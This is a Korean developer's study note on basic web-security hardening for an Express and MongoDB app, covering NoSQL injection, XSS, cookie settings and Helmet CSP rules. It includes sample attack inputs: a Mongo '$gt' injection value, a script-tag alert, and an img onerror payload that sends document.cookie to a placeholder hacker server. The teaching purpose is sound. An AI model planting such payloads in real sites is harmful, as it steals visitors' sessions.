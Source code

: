 
아래 내용은 진짜 최소한의 보안 대응에 대해 알려준거고
이것만으로는 부족해서 회사에 보안전담팀이 추가로 이것저것 많이 해야한다고함..


-----------------------------

### 몽고 injection

SQL injection은 SQL DB세계에서는 일반적인 공격방법인데,
입력값에다 파괴적인 쿼리문을 넣어 모든 테이블을 다 날려버린다든가 하는거임ㄷ;
근데 SQL을 쓰는 DB에서만 인젝션 공격을 할수있는게 아님.. 몽고도 가능.

방식 :

예를 들어 아래 코드에 내이름 대신 { '$gt': '' } 를 넣으면
모든유저가 들어있는 리스트를 받게 되고 결과는 항상 참이 됨.

    db.users.find( username: '내이름' )
    db.users.find( username: { '$gt': '' } )


대응 :

사용자가 입력값이 $기호 등을 못 쓰도록 제한하기.
쓸만한 패키지로는 express-mongo-sanitize 가 있는데
req의 body, query, params 에서 $ 와 . 를 걸러줌

    npm i express-mongo-sanitize

    const mongoSanitize = require('express-mongo-sanitize')
    app.use(mongoSanitize())

    혹은 아예 삭제하는게 아니라 특정문자로 대체하도록 옵션을 넣어 use할 수도 있음.

    app.use(mongoSanitize({
        replaceWith: '_';
    }))



### XSS (Cross-Site Scripting)

모든 보안공격의 80% 이상이 XSS라는 통계가 있을 정도로 널렸음;
침입하려는 사이트에 자바스크립트 코드를 심어 실행시키는 기법..
뷰페이지를 로드하는 과정에서 페이지에 포함된 JS코드가 전부 실행되는걸 악용

참고로 CSRF (Cross-Site Request Forgery)와는 다른거임
주로 CSFR를 하려고 XSS를 하므로 비슷하게 느껴질 수 있지만
XSS는 자바스크립트를 실행시키는거고, CSRF는 특정한 행동을 시키는거임.

방식 :

Stored XSS

    이 방식의 예는 사용자가 게시글작성 등의 입력폼에
    스크립트 코드를 넣어 전송하는거다. 서버에 그 코드자체가 저장됨.
    시도할수있는 방법이 매-우 다양함;

  - 매우기초적인 방법은 script태그를 직접 넣는거임..
    글제목을 이렇게 해서 올리면 이제 저 글 페이지에 접속하는 사람들은 저런 알림창을 보게됨;

        <script>alert('Fxxk you!')</script> 

  - 이미지태그src나 이벤트속성을 쓰는방법도 있음
    내가 해커라고 치고 먼저 해킹용서버,페이지를 만들어놓자. 그다음
    쿠키를 훔치고싶은 사이트의 게시판 등에 아래와같은 이미지 태그를 넣어 글작성.

        <img src="#" onerror="location.href('http://해킹용서버/쿠키내놔?cookie=' + document.cookie);">

    이제 이 페이지로 누군가 오면 저 이미지를 로드 시도하다가 저 주소로 이동하게 됨
    근데 저 url을 보면 그사람의 쿠키정보를 쿼리에 넣어 요청하게 해놨음..
    이런 식으로 쿠키/세션정보 같은 걸 털수있는거임

Reflected XSS

    이 방식은 보통 URL파라미터(특히 GET)에 스크립트를 넣어
    서버에 저장되지 않고 즉시 스크립트가 실행되게 함.
    브라우저 자체에서 차단하는 경우가 많아 상대적으로 성공 어려움.


대응 :

Stored XSS에 대응하기 위해..
텍스트입력폼에 HTML코드를 작성할 수 없도록 제한하자.

  - express-validator 이용

    express-validator 패키지 깔면 joi처럼 유효성검사도 해주고
    데이터sanitizing과 HTML이스케이핑 기능도 제공.

        npm i express-validator

        const { query, validationResult } = require('express-validator');

        app.use(express.json());
        app.get('/hello', query('person').notEmpty().escape(), (req, res) => {    // 미들웨어자리에 저렇게 넣어줌.
            const result = validationResult(req);
            if (result.isEmpty()) {
                return res.send(`Hello, ${req.query.person}!`);     // 검증할데이터가 쿼리스트링의 person값.
            }
            res.send({ errors: result.array() });
        });

    자세한 내용과 더 많은 기능은
    https://express-validator.github.io/docs/guides/getting-started 참고.



  - 또는 joi + sanitize-html 이용

    joi에는 HTML이스케이핑 기능이 없지만, 조이는 확장성이 좋아서
    내가 직접 HTML이스케이핑 규칙을 만들어 조이스키마에서 쓸수있음
    (validationSchemas.js 파일 참고)

    규칙 작성하는 데에는 sanitize-html 패키지를 썼음.

        npm i sanitize-html
        const sanitizeHTML = require('sanitize-html')



### 쿠키/세션 설정

app.js에 작성한 sessionConfig 말하는거임..

httpOnly: true
로 설정하면, 클라측 스크립트로 쿠키접근 못하게 제한가능.
만약 해커가 크로스사이트스크립팅 결함을 이용해 어떤사용자를
쿠키/세션정보요구하는 나쁜URL로 유인해도 브라우저가 서드파티에 쿠키를 노출하지 않음

secure: true
이건 나중에 배포시에는 https로만 액세스하게 해야할테니 필요하겠지만
지금 당장 내 앱에 적용하면 문제생김..

name: 'connect.sid를대체할만한너무간단하지않은이름'
원래 기본적으로 connect.sid라는 이름의 쿠키가 사용되는데
이걸 불특정다수의 쿠키/세션을 노린 공격으로부터 조금이나마 보호하기 위해
디폴트 쿠키이름을 다른걸로 설정해두는거임.



### 보안 라이브러리 Helmet.js

인기많은 보안패키지 헬멧을 써보자. 
10개넘는 미들웨어로 사용할 수 있는데 전부 HTTP헤더에 대한 내용임
https://helmetjs.github.io/ 참고

    npm i helmet

    const helmet = require('helmet')
    app.use(helmet())

그런데 이상태로 실행해보면 contentSecurityPolicy 미들웨어 때문에
부트스트랩 Splash Mapbox 전부 로딩 실패 뜸..
(그래서 임시로 helmet({ contentSecurityPolicy: false })로 use함)

CSP (Content Security Policy) 설정은
위에서 얘기한 크로스사이트 스크립팅에 대응할 수 있는 방법중 하나임.
내 웹사이트에서 각종데이터들의 출처로 사용할수있는 URL 등을 미리 지정해두고
그 이외의 곳으로 요청보내려고 하면 막고 오류띄워줌.

디폴트는 아래와 같음

    default-src 'self';
    base-uri 'self';
    font-src 'self' https: data:;
    form-action 'self';
    frame-ancestors 'self';
    img-src 'self' data:;
    object-src 'none';
    script-src 'self';
    script-src-attr 'none';
    style-src 'self' https: 'unsafe-inline';
    upgrade-insecure-requests

이걸 내가 사용하고있는 서비스들에 맞게 수정해줘야 함.
아래는 내가 브라우저콘솔에 뜨는 오류메시지 하나하나 보고 채워넣은거임 -_-...아오
맵박스Docs 뒤져보니까 CSP 설정에 관한 내용도 있어서 참고했음.

    app.use(helmet({
        contentSecurityPolicy: {
            useDefaults: false,
            directives: {
                defaultSrc: ["'self'"],
                scriptSrc: ["'self'", "'unsafe-inline'", "https://api.mapbox.com", "https://stackpath.bootstrapcdn.com", "https://cdn.jsdelivr.net"],
                objectSrc: ["'none'"],
                styleSrc: ["'self'", "'unsafe-inline'", "https://stackpath.bootstrapcdn.com", "https://fonts.googleapis.com"],
                styleSrcElem: ["'self'", "https://api.mapbox.com", "https://cdn.jsdelivr.net", "https://fonts.googleapis.com"],
                workerSrc: ["blob:"],
                connectSrc: ["'self'", "https://*.tiles.mapbox.com", "https://api.mapbox.com", "https://events.mapbox.com"],
                imgSrc: ["'self'", "blob:", "data:", "https://res.cloudinary.com"],
                fontSrc: ["'self'", "https://fonts.gstatic.com"],
                upgradeInsecureRequests: [],
            },
        },
    }))

